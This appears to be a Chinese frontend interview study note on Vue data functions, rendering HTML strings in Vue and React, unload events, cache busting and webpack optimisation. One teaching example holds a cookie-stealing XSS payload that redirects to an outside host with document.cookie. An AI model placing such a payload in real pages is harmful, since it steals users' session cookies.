 ### 面试题
* Vue组件中的data配置为什么是函数
* React如何让包含html代码的数据显示到页面
    * 富文本编辑器
    ```html
        <input />
        <textarea />
        const content = '<div>asdfjlsadkjf<script>location.href="http://www.laoxie.com?cookie="+document.cookie</script></div>'
        <div>{{content}}</div>

        <!--vue-->
        <div v-html="content"></div>
        <!--react-->
        <div dangerouslySetInnerHTML={{__html:content}}></div>

        <!-- 原生js -->
        div.innerText = content;
        div.innerHTML = content;
    ```
* 如何监听用户关闭页面的操作
    * onload
    * onunload
    * onbeforeunload

* 提高查看文档的能力
    * 需求文档
    * 技术文档
* 如何解决用户缓存问题
    * 随机字符/时间戳/hash
    ```js
        <img src="img/a.jpg?t=123456" />
        <img src="img/a.jpg?t=134567" />

        
        <img src="img/a.123.jpg" />
        <img src="img/a.456.jpg" />
    ```
    * webpack
        * output    设置js文件（改文件名）
        * loader    设置静态资源文件（改文件名）
        * HtmlWebpacpPlugin 设置静态资源（在url添加随机字符）
### 知识点
* 项目优化
    * 按需加载
        > antd按需加载
        ```js
            import {Button} from 'antd'
        ```
    * 路由懒加载
        > 优化首页访问速度，只有用户访问到某个页面时才加载这个路由
    * 服务器压缩
